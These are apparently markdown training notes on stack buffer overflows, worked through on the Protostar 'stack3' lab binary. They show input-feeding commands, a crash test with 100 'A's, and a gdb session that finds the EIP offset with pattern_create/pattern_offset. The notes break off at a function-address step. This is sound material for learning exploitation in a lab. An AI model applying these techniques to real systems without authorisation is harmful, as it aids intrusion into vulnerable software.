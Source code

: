 ```perl
perl -e 'print "A" x 100;'
```

# I/O

Command output as argument

```$ ./binary `cmd_here` ```

`$ ./binary $(cmd_here)`

Command output as input

`$ cmd_here | ./binary`

Use file as input

`$ cmd_here > file`

`$ ./binary < file`

# Check if the binary is vulnerable

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 100' | ./stack3
Segmentation fault
```

`segfault` confirms that binary is vulnerable to buffer overflow.

# Find out the size of the buffer (number of characters that overwrite the EIP)

```bash
$ ./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

$ gdb -q ./stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) r
Starting program: /opt/protostar/bin/stack3 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
calling function pointer, jumping to 0x63413163

Program received signal SIGSEGV, Segmentation fault.
0x63413163 in ?? ()

$ ./pattern_offset.rb -q 0x63413163
[*] Exact match at offset 64
```
# Get memory address of a function
